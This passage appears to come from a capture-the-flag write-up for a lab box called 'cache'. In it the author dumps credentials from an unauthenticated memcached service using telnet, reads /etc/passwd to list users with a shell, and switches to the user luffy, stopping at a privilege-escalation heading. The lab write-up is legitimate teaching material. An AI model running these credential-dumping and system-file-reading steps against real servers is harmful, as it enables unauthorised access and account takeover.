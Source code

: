 ```console
..
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 2
STAT items:1:hits_to_temp 0

stats cachedump 1 10                        
ITEM link [21 b; 0 s]                       
ITEM user [5 b; 0 s]                        
ITEM passwd [9 b; 0 s]                      
ITEM file [7 b; 0 s]                        
ITEM account [9 b; 0 s]                     
END

get user                            
VALUE user 0 5                     
luffy                          
END

get passwd                      
VALUE passwd 0 9                
0n3_p1ec3                    
END 
```
Here we first connected to memcache running on the port 11211 using telnet. Then we listed all the items using `stats items` and it looked like there is only a single item with id 1. So using `stats cachedump 1 10`, we tell the memcache to list 10 key value pairs on the 1st item. And then we get values for the key **user** and **passwd** using `get user` and `get passwd` respectively.

```console
luffy:0n3_p1ec3
```

### Users on the box with shell
```console
www-data@cache:/dev/shm$ cat /etc/passwd | grep -i bash
root:x:0:0:root:/root:/bin/bash
ash:x:1000:1000:ash:/home/ash:/bin/bash
luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
```
As luffy was a user on the box, lets try and login to luffy's account.

```console
www-data@cache:/dev/shm$ su luffy
Password: 
luffy@cache:/dev/shm$ 
```
And we are on the box as user luffy.

# Privilege Escalation to root

